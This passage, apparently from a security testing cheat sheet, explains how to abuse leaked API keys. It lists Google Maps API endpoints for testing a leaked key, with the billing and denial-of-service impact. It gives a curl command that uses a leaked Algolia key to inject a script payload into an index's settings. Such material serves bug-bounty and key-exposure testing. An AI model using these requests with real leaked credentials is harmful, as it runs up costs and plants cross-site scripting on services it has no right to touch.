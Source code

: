 ## Exploit

The following commands can be used to takeover accounts or extract personal information from the API using the leaked token.

### Google Maps 

Use : https://github.com/ozguralp/gmapsapiscanner/

Usage:
|   Name   |   Endpoint   |
|   ---    |    --- |
|   Static Maps    |   https://maps.googleapis.com/maps/api/staticmap?center=45%2C10&zoom=7&size=400x400&key=KEY_HERE   |
|   Streetview |	https://maps.googleapis.com/maps/api/streetview?size=400x400&location=40.720032,-73.988354&fov=90&heading=235&pitch=10&key=KEY_HERE |
|   Embed  |	https://www.google.com/maps/embed/v1/place?q=place_id:ChIJyX7muQw8tokR2Vf5WBBk1iQ&key=KEY_HERE  |
|   Directions |	https://maps.googleapis.com/maps/api/directions/json?origin=Disneyland&destination=Universal+Studios+Hollywood4&key=KEY_HERE    |
|   Geocoding  |	https://maps.googleapis.com/maps/api/geocode/json?latlng=40,30&key=KEY_HERE |
|   Distance Matrix    |	https://maps.googleapis.com/maps/api/distancematrix/json?units=imperial&origins=40.6655101,-73.89188969999998&destinations=40.6905615%2C-73.9976592%7C40.6905615%2C-73.9976592%7C40.6905615%2C-73.9976592%7C40.6905615%2C-73.9976592%7C40.6905615%2C-73.9976592%7C40.6905615%2C-73.9976592%7C40.659569%2C-73.933783%7C40.729029%2C-73.851524%7C40.6860072%2C-73.6334271%7C40.598566%2C-73.7527626%7C40.659569%2C-73.933783%7C40.729029%2C-73.851524%7C40.6860072%2C-73.6334271%7C40.598566%2C-73.7527626&key=KEY_HERE   |
|   Find Place from Text   |	https://maps.googleapis.com/maps/api/place/findplacefromtext/json?input=Museum%20of%20Contemporary%20Art%20Australia&inputtype=textquery&fields=photos,formatted_address,name,rating,opening_hours,geometry&key=KEY_HERE    |
|   Autocomplete   |	https://maps.googleapis.com/maps/api/place/autocomplete/json?input=Bingh&types=%28cities%29&key=KEY_HERE    |
|   Elevation  |	https://maps.googleapis.com/maps/api/elevation/json?locations=39.7391536,-104.9847034&key=KEY_HERE  |
|   Timezone   |	https://maps.googleapis.com/maps/api/timezone/json?location=39.6034810,-119.6822510&timestamp=1331161200&key=KEY_HERE   |
|   Roads  |	https://roads.googleapis.com/v1/nearestRoads?points=60.170880,24.942795|60.170879,24.942796|60.170877,24.942796&key=KEY_HERE    |
|   Geolocate  |   https://www.googleapis.com/geolocation/v1/geolocate?key=KEY_HERE |


Impact:
* Consuming the company's monthly quota or can over-bill with unauthorized usage of this service and do financial damage to the company
* Conduct a denial of service attack specific to the service if any limitation of maximum bill control settings exist in the Google account

### Algolia 

```powershell
curl --request PUT \
  --url https://<application-id>-1.algolianet.com/1/indexes/<example-index>/settings \
  --header 'content-type: application/json' \
  --header 'x-algolia-api-key: <example-key>' \
  --header 'x-algolia-application-id: <example-application-id>' \
  --data '{"highlightPreTag": "<script>alert(1);</script>"}'
```

### Slack API Token
